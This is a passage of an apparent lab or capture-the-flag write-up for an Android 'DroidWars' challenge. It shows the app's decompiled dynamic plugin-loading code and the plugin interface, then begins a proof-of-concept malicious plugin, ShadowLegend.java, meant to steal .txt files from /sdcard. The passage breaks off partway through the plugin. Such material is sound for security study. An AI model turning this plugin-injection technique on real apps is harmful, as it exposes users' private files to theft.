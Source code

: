 ```java
        if (function16 != null) {
            function16.invoke(str5);
            Unit unit = Unit.INSTANCE;
        }
    } catch (Exception e2) {
        String str6 = "Error loading class " + str3 + ": " + e2.getMessage();
        Log.e(TAG, str6, e2);
        Function1<? super String, Unit> function17 = this.onLogMessage;
        if (function17 != null) {
            function17.invoke(str6);
            Unit unit2 = Unit.INSTANCE;
        }
    }
    if (PokemonPlugin.class.isAssignableFrom(loadClass)) {
        String str7 = "Successfully loaded plugin class: " + str3;
        Function1<? super String, Unit> function18 = this.onLogMessage;
        if (function18 != null) {
            function18.invoke(str7);
        }
    }
[...]
[...]
[...]
```

Which is:
- `<pluginName>Plugin`
- `MaliciousPlugin` (will trigger the suspicious code)
- `com.eightksec.droidwars.plugin.<pluginName>Plugin`

Also support **`SimplePlugin`**. Which use a **`Interface`**.
```java
public interface PokemonPlugin {  
    List<String> getAbilities();  
    String getDescription();  
    int getImageResourceId();  
    String getName();  
    Map<String, Integer> getStats();  
    String getType();  
}
```

Let's create the plugin and *steal all the `.txt`* files in `/sdcard`
### PoC

```bash
mkdir src
```

Our plugin (save as `ShadowLegend.java`):
```java
import java.io.*;
import java.util.*;

public class ShadowLegend {
    public ShadowLegend() {
        try {
	        // the txt file (this will trigger the "detection")
            File out = new File("/sdcard/PokeDex/stolen_data.txt");
            if (!out.exists()) new Thread(() -> writeEvidence(out)).start();
        } catch (Throwable ignored) {}
    }

    // use Simple Plugin Adapter
    public String getName() { return "Shadow Legend"; }
```